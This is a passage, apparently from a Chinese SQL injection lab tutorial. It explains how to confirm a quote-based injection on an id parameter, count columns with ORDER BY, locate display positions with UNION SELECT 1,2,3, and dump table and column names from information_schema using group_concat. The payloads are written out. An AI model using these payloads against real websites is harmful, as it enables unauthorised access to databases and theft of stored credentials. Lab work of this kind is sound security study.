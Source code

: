 所以刚才双引号回显正常。

继续刚才的步骤，加上注释之后，错误也消失了，所以在这个时候可以union select了。

![](img/52a0285f469ec62b13261960a0a96bbf.png)

然后添加order by语句，?id=1' order by 4 --+，当order by 4的时候报错，所以一共有3个字段。

![](img/d63aa01e46501dadc8c497a14b7bee05.png)

然后使用union select 1,2,3 知道字段值对应的回显位置。

![](img/e3ad0de2fd9c213d846482ea00de7dfb.png)

可以看到，子查询中第二个字段的位置对应name的位置，第三个字段的位置对应password的位置。

然后用select group_concat(table_name) from information_schema.tables where table_schema = database()爆表名

用select group_concat(column_name) from information_schema.columns where table_name = XXX爆列名即可，其中XXX为上一步爆出的表名，如图
